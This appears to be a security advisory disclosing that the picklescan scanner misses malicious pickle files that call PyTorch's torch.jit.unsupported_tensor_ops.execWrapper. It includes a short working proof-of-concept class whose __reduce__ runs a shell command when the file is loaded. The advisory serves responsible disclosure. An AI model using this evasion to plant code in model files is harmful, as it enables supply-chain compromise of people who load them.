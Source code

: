 ### Summary

Using torch.jit.unsupported_tensor_ops.execWrapper function, which is a pytorch library function to execute remote pickle file.

### Details

The attack payload executes in the following steps:

First, the attacker craft the payload by calling to torch.jit.unsupported_tensor_ops.execWrapper function in reduce method
Then when the victim after checking whether the pickle file is safe by using Picklescan library and this library doesn't dectect any dangerous functions, decide to pickle.load() this malicious pickle file, thus lead to remote code execution.

### PoC

```

import torch.jit.unsupported_tensor_ops as unsupported_tensor_ops

class EvilTorchJitUnsupportedTensorOpsExecWrapper:
    def __reduce__(self):
        code = '__import__("os").system("whoami")'
        glob = {}
        loc = {}
        return unsupported_tensor_ops.execWrapper, (code, glob, loc)
```

### Impact

Who is impacted? Any organization or individual relying on picklescan to detect malicious pickle files inside PyTorch models.
What is the impact? Attackers can embed malicious code in pickle file that remains undetected but executes when the pickle file is loaded.
Supply Chain Attack: Attackers can distribute infected pickle files across ML models, APIs, or saved Python objects.

### Corresponding

https://github.com/FredericDT
https://github.com/Qhaoduoyu